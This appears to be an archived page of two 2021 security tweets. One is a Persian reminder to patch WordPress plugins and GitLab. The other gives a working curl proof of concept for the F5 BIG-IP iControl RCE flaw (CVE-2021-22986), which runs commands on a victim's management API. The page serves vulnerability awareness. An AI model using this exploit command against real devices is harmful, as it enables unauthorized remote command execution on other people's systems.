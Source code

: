 
# vahidnameni
**https://twitter.com/vahidnameni/status/1372456904082006021 _at 2021-03-18 07:56:39_**
<blockquote>
آخر سال هست و تقریبا ما ایرانی ها در تعطیلات هستیم. ما تعطیلیم ولی بقیه جهان نه!
اگر  WP Super Cache و یا Elementor Pro روی وردپرس دارید به آخرین نسخه ارتقا بدید.
از GitLab هاتون هم فراموش نکنید، چون آسیب پذیری با امتیاز 9.9 داره!
https://t.co/CjAyPJPw3F

https://t.co/m49JIG8adS
</blockquote>

* https://about.gitlab.com/releases/2021/03/17/security-release-gitlab-13-9-4-released/
* https://thehackernews.com/2021/03/flaws-in-two-popular-wordpress-plugins.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1372392693989445635 _at 2021-03-18 03:41:30_**
<blockquote>
F5 BIG-IP iControl RCE (CVE-2021-22986)

execute arbitrary system commands
create or delete files
disable services

PoC #1
curl -su admin: -H "Content-Type: application/json" http://[victimIP]/mgmt/tm/util/bash -d '{"command":"run","utilCmdArgs":"-c id"}'

https://t.co/6i3IYFeHt5 https://t.co/yzD1k3ClTF
</blockquote>

* https://attackerkb.com/topics/J6pWeg5saG/k03009991-icontrol-rest-unauthenticated-remote-command-execution-vulnerability-cve-2021-22986

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+Ewu3HGzVkAYcBRT.png" alt="http://pbs.twimg.com/media/Ewu3HGzVkAYcBRT.png"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>30</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>390</code></td>
<td>Favorites: <code>797</code></td>
</tr></table>

---